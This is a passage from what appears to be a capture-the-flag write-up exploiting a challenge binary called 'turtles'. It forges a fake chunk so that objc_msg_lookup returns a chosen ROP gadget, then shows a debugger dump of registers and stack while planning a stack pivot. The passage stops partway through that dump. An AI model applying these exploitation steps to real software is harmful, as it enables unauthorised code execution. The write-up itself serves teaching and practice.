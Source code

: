 And later on, we can see that the value returned (which is executed with `call rax` at `0x400cab`) is equivalent to the ptr to the start of our fake chunk. A bit of tinkering reveals that it is the last dereferenced value which gets executed (like the one at `objc_msg_lookup+56`).  With that, we can adjust our fake chunk slightly to control the address which is returned (and thus executed):

```
turtle = address of 0x0
0x0 - 0x8:	turtle
0x8 - 0x10:	turtle + 0x10
0x10 - 0x18:	ROP Gadget (address which is returned then executed)
0x18 - 0x28:  filler data 
0x28 - 0x30: 0x0
0x30 - 0x40: filler data
0x40 - 0x48: turtle
```

With that fake chunk, we get code exec.

## ROP

Now that we have code exec, we have to decide what to do. We can only execute a single gadget, so our best bet is to try and move the stack frame into a region of memory we control. Looking at the memory of the stack at the time of the `call rax` instruction, we can see that our input is close on the stack (in this case my filler input is zeroes, which is `0x30`):

```
[----------------------------------registers-----------------------------------]
RAX: 0x400d3a (<__libc_csu_init+90>:	pop    rbx)
RBX: 0x20f4ef0 (0x00000000020f4ef0)
RCX: 0xc ('\x0c')
RDX: 0x6013a0 --> 0x7f5e6479ab80 --> 0x7f5e6479aec0 --> 0x7f5e6408aa00 (0x00007f5e6408aa00)
RSI: 0x601560 --> 0xc00000069 ('i')
RDI: 0x20f4ef0 (0x00000000020f4ef0)
RBP: 0x7ffca50fc9e0 --> 0x400ce0 (<__libc_csu_init>:	push   r15)
RSP: 0x7ffca50fc1a0 --> 0x7ffca50fcac8 --> 0x7ffca50fd25f ("./turtles")
RIP: 0x400c9b (<main+279>:	call   rax)
R8 : 0xd2c (',\r')
R9 : 0x7ffca50f9981 --> 0x0 
R10: 0x25 ('%')
R11: 0x7f5e6343aad0 (<__memmove_avx_unaligned_erms>:	mov    rax,rdi)
R12: 0x400a60 (<_start>:	xor    ebp,ebp)
R13: 0x7ffca50fcac0 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x400c8a <main+262>:	
    lea    rdx,[rip+0x20070f]        # 0x6013a0 <_OBJC_INSTANCE_1>
   0x400c91 <main+269>:	
    lea    rsi,[rip+0x2008c8]        # 0x601560 <_OBJC_SELECTOR_TABLE+32>
   0x400c98 <main+276>:	mov    rdi,rbx
=> 0x400c9b <main+279>:	call   rax
   0x400c9d <main+281>:	mov    rbx,QWORD PTR [rbp-0x18]
   0x400ca1 <main+285>:	
    lea    rsi,[rip+0x2008c8]        # 0x601570 <_OBJC_SELECTOR_TABLE+48>
   0x400ca8 <main+292>:	mov    rdi,rbx
   0x400cab <main+295>:	call   0x4009f0 <objc_msg_lookup@plt>
Guessed arguments:
arg[0]: 0x20f4ef0 (0x00000000020f4ef0)
arg[1]: 0x601560 --> 0xc00000069 ('i')
arg[2]: 0x6013a0 --> 0x7f5e6479ab80 --> 0x7f5e6479aec0 --> 0x7f5e6408aa00 (0x00007f5e6408aa00)
[------------------------------------stack-------------------------------------]
0000| 0x7ffca50fc1a0 --> 0x7ffca50fcac8 --> 0x7ffca50fd25f ("./turtles")
0008| 0x7ffca50fc1a8 --> 0x100000000 
0016| 0x7ffca50fc1b0 --> 0x20f4ef0 (0x00000000020f4ef0)
```